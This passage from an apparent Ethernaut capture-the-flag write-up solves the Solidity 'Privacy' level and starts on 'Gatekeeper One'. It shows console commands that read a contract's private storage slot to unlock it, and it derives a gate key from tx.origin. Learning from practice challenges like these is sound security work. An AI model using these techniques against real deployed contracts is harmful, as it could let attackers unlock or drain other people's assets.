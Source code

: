 ### 12. Privacy
- this challenge is like the extended version of the Vault challenge, it's about storage which is 32 bytes each slot
- there are 6 stateVar declared, the storage will lool like this
```
slot 0: locked
slot 1: ID (in uint256 - 32 bytes)
slot 2: from the right, flattening, denomination and awkwardness
slot 3: data[0]
slot 4: data[1]
slot 5: data[2]
```

- E.g. `brownie console  --network rinkeby`
```bash
>>> web3.eth.getStorageAt(challenge_address, 2)
HexBytes('0x000000000000000000000000000000000000000000000000000000008e27ff0a')
```
    - first byte stores `flattening` which is `uint8`
    - 2nd byte store `denomination` which is also `uint8`
    - `awkwardness` is `uint16` type that need 4 digits to represent in this slot

- we are looking for `data[2]` which is in slot 5

**Solution**
`brownie console  --network rinkeby`
```
>>> challenge_address = '...'

>>> data_2 = web3.eth.getStorageAt(challenge_address, 5)

# bytes16 is the first 34 characters, including 0x
>>> key = data_2.hex()[0:34]

>>> p = Privacy.at(challenge_address)

>>> p.unlock(key, {'from':hacking_account})
```

### 13. Gatekeeper One
- gateOne: obviously need to write a contract that call `enter` function to attack

- gateTwo can be passed with brute force how much gas to use

- gateThree: `_gateKey` is bytes8 need to pass 3 requirements
  - just write 0 in bytes8 here `0x0000000000000000`
  - `uint32(uint64(_gateKey)) == uint16(tx.origin)`
  `uint16(tx.origin)` is the last 2 bytes (4 characters) of our EOA address, say `0xaabb`
  
  now `_gateKey = `0x000000000000aabb`` will pass this requirement as
  `uint64('0x000000000000aabb') = '0x000000000000aabb'`
  `uint32(uint64('0x000000000000aabb')) = '0x0000aabb'`
  `'0x00000aabb' == '0xaabb' is True`
